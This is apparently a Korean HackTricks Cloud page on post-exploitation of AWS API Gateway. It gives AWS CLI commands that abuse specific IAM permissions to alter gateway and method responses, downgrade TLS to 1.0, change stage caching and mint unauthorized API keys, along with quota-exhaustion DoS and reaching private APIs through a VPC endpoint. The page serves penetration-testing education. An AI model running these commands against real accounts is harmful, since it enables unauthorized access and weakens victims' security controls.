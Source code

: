 # AWS - API Gateway 후반 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## API Gateway

자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 노출되지 않은 API에 접근하기

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)에서 서비스 com.amazonaws.us-east-1.execute-api를 사용하여 엔드포인트를 생성하고, 액세스할 수 있는 네트워크(아마도 EC2 머신을 통해)에 엔드포인트를 노출시키고, 모든 연결을 허용하는 보안 그룹을 할당할 수 있습니다.\
그런 다음, EC2 머신에서 엔드포인트에 액세스하고 이전에 노출되지 않았던 게이트웨이 API를 호출할 수 있습니다.

### 사용 계획 DoS

**열거** 섹션에서 **키의 사용 계획을 얻는 방법**을 볼 수 있습니다. 키가 있고 월별로 X번의 사용으로 **제한**되어 있다면, **그냥 사용**하여 DoS를 발생시킬 수 있습니다.

**API 키**는 **`x-api-key`**라는 **HTTP 헤더**에 **포함**되어야 합니다.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존의 게이트웨이 응답을 수정하여 민감한 정보를 노출하거나 악성 스크립트를 실행**할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 민감한 정보의 유출, 악성 스크립트 실행 또는 API 리소스에 대한 무단 액세스.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 스테이지를 수정하여 트래픽을 다른 스테이지로 리디렉션하거나 캐싱 설정을 변경하여 캐시된 데이터에 무단 액세스**를 할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 캐시된 데이터에 대한 무단 액세스, API 트래픽의 방해 또는 가로채기.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway REST API 메소드의 메소드 응답을 수정하여 민감한 정보를 노출하거나 악성 스크립트를 실행**할 수 있습니다.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적인 영향**: 민감한 정보 노출, 악성 스크립트 실행 또는 API 리소스에 대한 무단 액세스.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **API Gateway REST API 설정을 수정하여 로깅을 비활성화하거나 최소 TLS 버전을 변경하여 API의 보안을 약화시킬 수 있습니다**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: API의 보안이 약화되어, 무단 접근이 가능하거나 민감한 정보가 노출될 수 있습니다.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, 그리고 `apigateway:CreateUsagePlanKey` 권한을 가진 공격자는 **새로운 API 키를 생성하고, 사용 계획과 연결한 다음 이러한 키를 사용하여 무단으로 API에 접근**할 수 있습니다.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**잠재적 영향**: API 리소스에 대한 무단 액세스, 보안 제어 우회.

{% hint style="info" %}
테스트 필요
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왑**](https://peass.creator-spring.com)을 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

